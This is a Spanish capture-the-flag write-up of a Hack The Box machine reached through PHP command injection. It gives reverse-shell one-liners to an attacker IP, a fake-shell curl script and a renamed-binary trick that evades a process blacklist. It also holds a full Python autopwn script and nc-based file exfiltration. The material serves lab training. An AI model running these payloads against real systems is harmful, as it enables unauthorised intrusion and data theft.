 ## Vuln exploit & Gaining Access {-}

### Crear una reverse shell con una pagina html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.28/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. En la web, le damos un curl a nuestra maquina

    ```php
    <?php system("curl 10.10.14.28"); ?>
    ```


Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos la reverse shell 

    ```php
    <?php system("curl 10.10.14.28 | bash"); ?>
    ```

La connection se entabla pero el servidor nos expulsa directamente.

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 50:19

Tambien se podri utilizar la heramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Analyzando el servidor {-}

```bash
whoami
ifconfig
ls -l
ls -l /home
ls -l /home/xalvas
cat /home/xalvas/user.txt
```

Encontramos el usuario **xalvas** y ya podemos leer la flag.

La pregunta aqui seria: Porque no nos deja entablar una reverse shell? Porque el systema nos expulsa cuando lo hacemos?

El commando `ls -l /home/xalvas` nos muestra ficheros. En el fichero `intrusions` vemos lo siguiente

```bash
cat /home/xalvas/intrusions
```

```r
    knitr::include_graphics("images/calamity-intrusions.png")
```

Vemos que el commando `nc` esta BlackListeado y que loggea el Proccess Kill en este fichero. El problema de esto es que se puede
que los commandos BlackListeados se controllan con los nombres mismo (no permite `nc, python, bash`). Pero que passa si copiamos el 
binario bash y que le ponemos un nombre differente.

1. Nos ponemos en escucha por el puerto 443 en la maquina de attaquante

    ```bash
    nc -nlvp 443
    ```

1. Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

    ```bash
    cp /bin/bash /dev/shm/s4vitar
    ls /dev/shm/s4vitar
    /dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1
    /dev/shm/s4vitar -c "/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"
    /dev/shm/s4vitar -c '/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'
    ```

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Creacion del autopwn en python {-}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import threading
import time

from pwn import *

def def_handler(sig, frame):
    
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.27/admin.php"
burp = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    headers = {
        'Cookie': 'adminpowa=noonecares'
    }

    r = requests.get(main_url + "?html=<?php%20system(\"cp%20/bin/bash%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"chmod%20+x%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"/dev/shm/s4vitar%20-c%20'/dev/shm/s4vitar%20-i%20>%26%20/dev/tcp/10.10.14.20/443%200>%261'\");%20?>", headers=headers)

    print(r.text)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest,args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=10).wait_for_connection()

    shell.interactive()
```

Ya lo podemos lanzar con el commando `python3 autopwn.py`

> [ ! ] Notas las explicaciones paso a paso del autopwn se pueden ver en el video al minuto 1:06:21


### Investigamos la maquina {-}

Ya hemos visto una lista de archivos en el repertorio de xalvas y uno es un fichero `.wav`. Nos lo enviamos
a nuestra maquina de attackante.

1. En la maquina de attackante

    ```bash
    nc -nlvp 443 > recov.wav
    ```

1. En la maquina victima

    ```bash
    cp /bin/nc /dev/shm/transfer
    chmod +x /dev/shm/transfer
    /dev/shm/transfer 10.10.14.20 443 < recov.wav
    ```

Hay otros ficheros de typo `.wav`, usando la misma technica nos lo enviamos tambien.
Checkeamos que los ficheros no sa hayan compormetido durante el transfer con `md5sum`. Los ficheros `.wav` son ficheros
de typo audio y se pueden escuchar con el commando `play recov.wav`

No os assusteis con la musiquita ;)

Escuchando los otros ficheros parece que el fichero `rick.wav` sea la misma cancion y esto es raro. Si le hacemos un `md5sum recov.wav rick.wav`,
vemos que la cancion es la misma pero el **md5sum** no. Quiere decir que la integridad de la data de uno de estos ficheros a sido manipulada.


### Reto de steganografia con Audoacity {-}

**Audacity** es una heramienta de audio que se puede installar con `apt install audacity`. Lo abrimos y cargamos los dos ficheros.
Si nos dan 2 audios que parrecen se los mismos pero hemos visto con el **md5sum** que no son iguales, Una cosa que se puede hacer es 
lanzar un audio de manera normal y al mismo tiempo con el segundo audio, invertir la onda del audio. Si hacemos esto y que los dos ficheros
son ciertamente iguales, no tendriamos que escuchar nada. Lo unico, en este caso que se tendria que escuchar seria las differencias ente
los dos audios.

> [ ! ] Notas para ver como invertir las ondas de un audio, podeis mirrar el video al minuto 1:31:00

Ya tenemos una contraseña.

Intentamos ponerle la contraseña al usuario xalvas y entramos

```bash
su xalvas
Password: <la contraseña>
whoami
#Output 
xalvas
```